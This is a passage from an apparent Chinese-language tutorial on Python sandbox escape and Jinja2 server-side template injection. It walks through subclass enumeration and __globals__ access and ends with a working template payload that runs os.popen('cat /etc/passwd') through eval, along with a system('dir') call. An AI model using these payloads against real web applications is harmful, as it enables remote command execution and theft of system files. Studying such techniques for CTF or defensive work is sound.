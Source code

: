然后查看每个类的 **\_\_init\_\_**,运行如下代码
```python
class test:
    test1 = 123
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    print(index,i.__init__)
```
结果
```
128 <function _wrap_close.__init__ at 0x00FE9A50>
129 <function Quitter.__init__ at 0x00FE9DB0>
130 <function _Printer.__init__ at 0x00FE9E88>
131 <slot wrapper '__init__' of 'object' objects>
132 <slot wrapper '__init__' of 'object' objects>
133 <slot wrapper '__init__' of 'MultibyteIncrementalEncoder' objects>
134 <slot wrapper '__init__' of 'MultibyteIncrementalDecoder' objects>
135 <slot wrapper '__init__' of 'MultibyteStreamReader' objects>
136 <slot wrapper '__init__' of 'MultibyteStreamWriter' objects>
137 <slot wrapper '__init__' of 'object' objects> #自己定义的类
```
**wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性**。后来测试发现这个值跟类有没有初始化有关，如下·

```python
class test:
    test1 = 123
    def __init__(self) : self.test1 = 123
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    print(index,i.__init__)
```
结果
```python
137 <function test.__init__ at 0x0109CD68> # 因此他也具有了__globals__属性
```

上面只是自己证明了，怎样才会有__globals__属性和自定义的类所在的空间，对于利用来说，内置的类有的已经被初始化有了__globals__属性，可以直接利用。

**__globals__属性**
借用大佬的话就是 **python 解释器发现函数中的某个变量被 global 关键字修饰，就去函数的 \_\_globals__ 字典变量中寻找（因为 python 中函数也是一等对象）；同时，一个模块中每个函数的 \_\_globals__ 字典变量都是模块 \_\_dict__ 字典变量的引用，二者值完全相同。**

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NoYW5rZTAwMS8tL21hc3Rlci9pbWcvMjAxOTA5MDEyMTE5NTEucG5n?x-oss-process=image/format,png)]
与此同时我发现了system函数，所以就不用再去调用 **\_\_builtins\_\_**
如下
```Python
{}.__class__.__base__.__subclasses__()[128].__init__.__globals__['system']('dir')
```
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NoYW5rZTAwMS8tL21hc3Rlci9pbWcvMjAxOTA5MDEyMTI3MDEucG5n?x-oss-process=image/format,png)
成功执行命令 **这个命令跟python版本有关，不同的版本其内置函数不同**

emmmm,system测试没有回显（伤心），于是按照 **\_\_builtins\_\_** 方法进行
**payload**

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='_wrap_close' %}
{{c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /etc/passwd').read()") }}
{% endif %}{% endfor %}
```
